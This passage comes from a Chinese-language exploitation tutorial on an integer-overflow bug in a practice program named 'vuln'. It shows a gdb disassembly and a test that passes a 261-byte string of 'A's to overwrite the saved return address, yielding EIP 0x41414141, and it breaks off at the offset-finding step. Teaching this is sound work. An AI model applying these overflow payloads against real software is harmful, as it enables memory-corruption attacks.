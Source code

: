 ```
 0x08048519 <+123>: lea -0x14(%ebp),%eax                  //eax = passwd_buf
 0x0804851c <+126>: mov %eax,(%esp)                       //arg = passwd_buf
 0x0804851f <+129>: call 0x8048494                        //call store_passwd_indb
 //Function Epilogue
 0x08048524 <+134>: add $0x34,%esp                        //unwind stack space
 0x08048527 <+137>: pop %edi                              //restore edi
 0x08048528 <+138>: pop %ebp                              //restore ebp
 0x08048529 <+139>: ret                                   //return
End of assembler dump.
(gdb)
```
堆栈布局：  
![](../pictures/level1integer2.png)   



刚才讲到，一个长度为261的密码会绕过边界检查，并且允许我们覆盖存储于栈内的返回地址。那么好，我们来通过发送一串A的方法进行测试。  

## 0X03 利用整型溢出漏洞

测试第一步：这样做是否会覆盖返回地址？  

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*261'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*261'`
Valid Password
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```
测试第二步：来自目标缓冲区的偏移量是什么？  
